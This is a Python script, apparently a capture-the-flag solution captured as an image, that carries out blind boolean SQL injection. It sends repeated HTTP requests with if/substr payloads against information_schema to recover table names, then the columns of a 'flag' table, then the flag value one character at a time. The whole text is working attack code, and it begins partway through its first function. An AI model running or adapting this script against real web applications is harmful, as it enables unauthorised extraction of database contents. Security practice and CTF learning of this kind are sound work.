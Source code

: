 ```python
    list = []
    for k in range(0, 4):
        name = ''
        for j in range(1, 9):
            for i in 'sqcwertyuioplkjhgfdazxvbnm':
                url = urlOPEN + 'if(substr((select table_name from information_schema.tables where table_schema=database() limit %d,1),%d,1)="%s",1,(select table_name from information_schema.tables))' % (
                k, j, i)
                # print(url+'%23')
                r = requests.get(url)
                if mark in r.text:
                    name = name + i
                    break
        list.append(name)
    print('table_name:', list)
# start = time.time()
table_name()
def column_name():
    list = []
    for k in range(0, 3):  # 判断表里最多有4个字段
        name = ''
        for j in range(1, 9):  # 判断一个 字段名最多有9个字符组成
            for i in 'sqcwertyuioplkjhgfdazxvbnm':
                url = urlOPEN + 'if(substr((select column_name from information_schema.columns where table_name="flag"and table_schema= database() limit %d,1),%d,1)="%s",1,(select table_name from information_schema.tables))' % (
                k, j, i)
                r = requests.get(url)
                if mark in r.text:
                    name = name + i
                    break
        list.append(name)
    print('column_name:', list)
column_name()
def get_data():
    name = ''
    for j in range(1, 50):  # 判断一个值最多有51个字符组成
        for i in range(48, 126):
            url = urlOPEN + 'if(ascii(substr((select flag from flag),%d,1))=%d,1,(select table_name from information_schema.tables))' % (
            j, i)
            r = requests.get(url)
            if mark in r.text:
                name = name + chr(i)
                print(name)
                break
    print('value:', name)


get_data()

```
